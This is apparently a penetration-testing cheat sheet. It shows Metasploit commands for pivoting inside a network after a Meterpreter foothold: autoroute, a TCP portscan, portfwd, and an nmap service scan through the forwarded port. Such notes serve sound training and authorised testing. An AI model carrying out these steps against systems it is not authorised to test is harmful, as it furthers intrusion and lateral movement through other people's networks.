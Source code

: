 After gaining a meterpreter shell to initial foothold, set up the autoroute for within the network
```
# Meterpreter
run autoroute -s <foothold ip>/<CIDR>
```

```
# Background meterpreter session then portscan
use auxiliary/scanner/portscan/tcp
```


Forward the port that you want to service scan based on portscan output
```
# Connect back to our pivot point
sessions -i 1

# Set up the port forward
portfwd add -l <listening port> -p <target port> -r <target ip>

# Output current forwarded ports
portfwd list
```

Service scan the forwarded port through nmap
```
# From your local (attacker) host
nmap -Pn -sV -p <forwarded port> localhost
```

50, 51
